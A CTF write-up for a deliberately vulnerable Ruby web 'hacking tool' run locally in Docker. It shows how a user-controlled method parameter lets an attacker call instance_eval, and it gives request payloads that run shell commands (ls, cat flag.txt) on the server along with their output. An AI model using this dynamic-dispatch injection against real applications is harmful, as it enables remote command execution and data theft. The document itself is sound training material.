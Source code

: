 # Hacking Tool 🛠

> web

Author: [lilc4t](https://github.com/masterT)

This is my custom hacking tool, very useful during CTFs 🚩!

http://localhost:23200/


## Setup

Requirements:
- docker

Start:

```shell
docker-compose up
```

## Writeup

The page as a form has 4 inputs:
- message
- option (commented)
- method

Here is the source code:

```html
<form action="/" method="POST">
  <textarea autofocus name="message"></textarea>
  <!-- <input type="text" name="option"/> -->
  <br>
  <select name="method">
      <option value="decode_base64">Decode base64</option>
      <option value="encode_base64">Encode base64</option>
      <option value="encode_hexadecimal">Encode hexadecimal</option>
      <option value="decode_hexadecimal">Decode hexadecimal</option>
      <option value="md5">Md5</option>
      <option value="sha1">Sha1</option>
      <option value="sha2">Sha2</option>
  </select>
  <input type="submit">
  <hr/>
  <textarea></textarea>
</form>
```

Here is a normal request payload:

```
message=test&method=encode_base64
```

And it's response:

```html
<!-- ... -->
  <textarea>dGVzdA==
</textarea>
<!-- ... -->
```

It looks like it performs the action specify by the `method` param on the `message` param.  In this case encode `test` in base 64.

Now let's try to break it!

Request payload:

```
message=test&method=foobar
```

Response:

```html
<!-- ... -->
  <textarea></textarea>
   <!-- <div class="error">undefined method `foobar' for Tool:Class</div> -->
<!-- ... -->
```

We have an error message!

After some research on the internet you can figure out that the language used is [Ruby](https://www.ruby-lang.org).

It can be code injection if the param `method` is the method name called on the `Tool` class.

Let's try it with the [methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-methods) method. It should return an array with the methods symbol defined for this class.


```
message=test&method=methods
```

```html
<!-- ... -->
  <textarea>[:decode_base64, :encode_base64, :encode_hexadecimal, :decode_hexadecimal, :md5, :sha1, :sha2, :exposed_methods, :new, :allocate, :superclass, :json_creatable?, :<=>, :include, :<=, :>=, :==, :===, :included_modules, :include?, :name, :ancestors, :instance_methods, :public_instance_methods, :protected_instance_methods, :private_instance_methods, :constants, :const_get, :const_set, :const_defined?, :class_variables, :remove_class_variable, :class_variable_get, :class_variable_set, :class_variable_defined?, :public_constant, :private_constant, :deprecate_constant, :singleton_class?, :module_exec, :class_exec, :freeze, :inspect, :const_missing, :class_eval, :method_defined?, :public_method_defined?, :prepend, :<, :>, :private_method_defined?, :protected_method_defined?, :public_class_method, :module_eval, :to_s, :private_class_method, :autoload, :autoload?, :instance_method, :public_instance_method, :to_json, :instance_of?, :kind_of?, :is_a?, :tap, :public_send, :method, :public_method, :singleton_method, :remove_instance_variable, :define_singleton_method, :instance_variable_set, :extend, :to_enum, :enum_for, :=~, :!~, :eql?, :respond_to?, :object_id, :send, :display, :nil?, :hash, :class, :singleton_class, :clone, :dup, :itself, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :frozen?, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variable_get, :instance_variables, :instance_variable_defined?, :!, :!=, :__send__, :equal?, :instance_eval, :instance_exec, :__id__]</textarea>
<!-- ... -->
```

There we have it! There is a lot of methods defined for the class `Tool`.


Let's check the private methods using [private_methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-private_methods):

```
message=test&method=private_methods
```

```html
<!-- ... -->
  <textarea>[:initialize, :inherited, :using, :attr, :attr_reader, :attr_writer, :attr_accessor, :remove_const, :remove_method, :method_added, :method_removed, :protected, :method_undefined, :undef_method, :public, :private, :initialize_copy, :initialize_clone, :alias_method, :included, :extended, :prepended, :define_method, :DelegateClass, :humanize, :Digest, :sprintf, :format, :Integer, :Float, :String, :Array, :Hash, :fail, :iterator?, :__method__, :catch, :__dir__, :loop, :global_variables, :throw, :block_given?, :raise, :__callee__, :eval, :URI, :j, :Rational, :trace_var, :untrace_var, :at_exit, :Complex, :set_trace_func, :gem, :select, :caller, :caller_locations, :`, :test, :fork, :exit, :JSON, :sleep, :jj, :respond_to_missing?, :load, :gem_original_require, :exec, :exit!, :syscall, :open, :printf, :print, :putc, :puts, :gets, :readlines, :readline, :initialize_dup, :p, :spawn, :rand, :srand, :proc, :lambda, :abort, :system, :trap, :require, :require_relative, :binding, :local_variables, :warn, :method_missing, :singleton_method_added, :singleton_method_removed, :singleton_method_undefined]</textarea>
<!-- ... -->  
```

Nice, the method [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) is defined.

> `cmd` → string
> Returns the standard output of running cmd in a subshell. The built-in syntax %x{...} uses this method. Sets $? to the process status.

We could use the method [instance_variables](https://ruby-doc.org/core-2.2.0/Object.html#method-i-instance_variables) to execute private method. This way we could use the [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) method and execute code on the serveur.

> instance_eval(string [, filename [, lineno]] ) → obj
> Evaluates a string containing Ruby source code, or the given block, within the context of the receiver (obj). In order to set the context, the variable self is set to obj while the code is executing, giving the code access to obj's instance variables and private methods.

Let's try to list the current directory:

```
message=`ls`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>Gemfile
Gemfile.lock
app.rb
flag.txt
tool.rb
</textarea>
<!-- ... -->
```

Let's read the `flag.txt` file:

```
message=`cat flag.txt`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>CFI{send_is_a_very_dangerous_method}</textarea>
<!-- ... -->  
```  

Got the flag 🎉!
